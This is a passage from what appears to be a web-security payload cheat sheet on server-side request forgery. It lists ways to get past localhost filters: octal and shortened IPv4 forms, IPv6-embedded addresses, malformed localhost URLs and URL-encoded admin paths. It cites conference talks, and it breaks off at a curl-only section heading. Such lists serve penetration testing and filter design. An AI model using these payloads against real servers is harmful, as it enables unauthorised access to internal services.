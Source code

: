 Implementations differ on how to handle octal format of ipv4.

```sh
http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1
...
```

Ref: 
- [DEFCON 29-KellyKaoudis SickCodes-Rotten code, aging standards & pwning IPv4 parsing](https://www.youtube.com/watch?v=_o1RPJAe4kU)
- [AppSecEU15-Server_side_browsing_considered_harmful.pdf](https://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf)


### Bypass using IPv6/IPv4 Address Embedding

[IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

```powershell
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
```

### Bypass using malformed urls

```powershell
localhost:+11211aaa
localhost:00011211aaaa
```

### Bypass using rare address

You can short-hand IP addresses by dropping the zeros

```powershell
http://0/
http://127.1
http://127.0.1
```

### Bypass using URL encoding

[Single or double encode a specific URL to bypass blacklist](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

```powershell
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
```

### Bypass using bash variables 

(curl only)
